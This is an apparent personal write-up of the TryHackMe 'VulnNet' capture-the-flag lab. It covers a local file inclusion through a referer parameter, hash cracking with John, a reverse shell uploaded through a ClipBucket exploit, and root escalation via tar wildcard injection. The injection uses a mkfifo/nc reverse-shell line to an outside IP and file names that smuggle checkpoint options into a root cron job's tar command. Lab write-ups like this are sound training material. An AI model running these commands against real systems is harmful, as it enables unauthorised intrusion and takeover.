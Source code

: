 
2025-01-30 22:44

Source: #Boot2root

After adding the IP to `/etc/hosts`, we do some directory busting which leads us nowhere so we [[crawling a website]] to find links 

Checking the source code of the main page reveals 2 JavaScript imports at the end of the code
- The analysis of the first script will reveal the following subdomain - `http://broadcast.vulnnet.thm`
- The second script reveals that `index.php` accepts a `referer` parameter - `http://vulnnet.thm/index.php?referer=`
#### LFI 

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let’s check the other information.

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion ([[LFI]])
```sh
curl -s http://vulnnet.thm/?referer=/etc/passwd
```

Let’s check in the Apache configuration files 
```sh
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
```

from the above command we get to know that the password file is located in  `/etc/apache2/.htpasswd`
```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

the username is developers and the `md5crypt` hash is to the right
use john to crack the hash 
```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
### Revshell

- on accessing the website `broadcast.vulnnet.thm` we see that it uses `clipbucket 4.0`
- This version has a exploit available on `searchsploit`, we can upload a file without authentication
Follow the instructions in the exploit and upload a php [[revshell]]

Open a listener (`nc -nlvp 4444`) and browse the uploaded shell `http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1620367741f6065c.php`.
### Lateral movement

- Lateral movement from www-data > server-management
Checking the `/home` folder, as well as the `/etc/passwd` file will confirm the existence of a `server-management` user.

Let’s check what files are owned by this user [[Find]]
```
find / -type f -user server-management -exec ls -l {} + 2>/dev/null
```

this user owns a zip file in the `/var/backup` directory, copy the file to your machine
```
cp /var/backup/ssh-backup.tar.gz /tmp
cd /tmp
tar xvf ssh-backup.tar.gz
```

convert the file to something that [[john]] will understand 
```
python /usr/share/john/ssh2john.py id_rsa > ssh.hash
```

then crack the hash using john

### Priv esc

after gettting the hash [[ssh (22 port)]] as the user 
```sh
ssh -i id_rsa server-management@vulnnet.thm
```

There is a [[cronjob]] (`/var/opt/backupsrv.sh`) run by `root` every 2 minutes
We don’t have write access to the script.

The script is backing up our `Documents` folder using `tar` to compress the archive.

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) what we can do with `tar` confirms that we can exploit it by creating 2 files which names will be interpreted as options passed to the `tar` command.

create a revshell using the pentest monkey revshell.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh

touch "/home/server-management/Documents/--checkpoint=1"

touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```

start a listener then wait for the cronjob to run.

### References
[TryHackMe | VulnNet](https://tryhackme.com/r/room/vulnnet1)

walktrough
[TryHackMe-VulnNet - aldeid](https://www.aldeid.com/wiki/TryHackMe-VulnNet)
[VulnNet Tryhackme Writeup. By Shamsher khan This is a Writeup of… | by Shamsher khan | InfoSec Write-ups](https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959)
[TryHackMe — Vulnnet WriteUp/Walkthrough | by Arnav singh | Medium](https://medium.com/@arnavsinghinfosec/tryhackme-vulnnet-writeup-walkthrough-3b7846b24416)